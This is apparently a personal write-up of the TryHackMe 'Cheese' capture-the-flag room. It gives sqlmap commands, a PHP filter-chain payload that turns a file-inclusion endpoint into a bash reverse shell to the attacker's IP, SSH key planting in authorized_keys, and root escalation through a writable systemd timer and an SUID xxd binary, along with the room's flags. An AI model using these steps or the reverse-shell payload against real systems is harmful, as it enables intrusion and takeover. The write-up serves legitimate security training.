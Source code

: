 #cheese #thm #easy #LFI2RCE #ssh-keygen #SQLi #xxd #PHP-Filter-Chain

#### Ports
```
all ports are open
```

#### Directory Enumeration
```
nothing found
```

#### SQL
```
sqlmap -r req.txt -p username --dbs --batch
sqlmap -r req.txt -p username -D users --tables
sqlmap -r req.txt -p username -D users -T 
```
--> found this endpoint  : 
```
http://10.10.96.177/secret-script.php?file=supersecretadminpanel.html
```

```
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```
-> unable to crack hash , but we don't need it also

#### LFI 

users in /etc/passwd : `comte`

#### Gaining Shell

--> **Got to know about PHP-Filter-Chaining thing to get RCE from LFI**
Link : https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md

-> ran : `python3 LFI2RCE.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.6.74.42/4444 0>&1\"'); ?>" | grep "^php" > payload.txt`

-> ran : `curl "http://10.10.221.128/secret-script.php?file=$(cat payload.txt)"`

##### Got Shell as www-data

#### Shell as Comte

-> Writeable perms on */home/comte/.ssh/authorized_keys*
-> `ssh-keygen -t rsa -f rghx -b 4096`
-> copied `rghx.pub` to */home/comte/.ssh/authorized_keys*
-> `chmod 600 rghx`
-> `ssh -i rghx comte@IP`

-> got shell as *COMTE*

###### user.txt : ***THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}***

#### Privilege Escalations

-> `sudo -l`
```
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

-> You have write privileges over */etc/systemd/system/exploit.timer*
-> added -> time 5s in file which was not mentioned
-> started service 
-> it was executing *exploit.service* file which copying *xxd* binary in /opt and giving it the SUID perms
-> `xdd` -> used to conver a file content into hex and also in original form again 

#### Gtfo xxd
```
LFILE=file_to_read
./xxd "$LFILE" | xxd -r
```

###### root.txt : ***THM{dca75486094810807faf4b7b0a929b11e5e0167c}
***

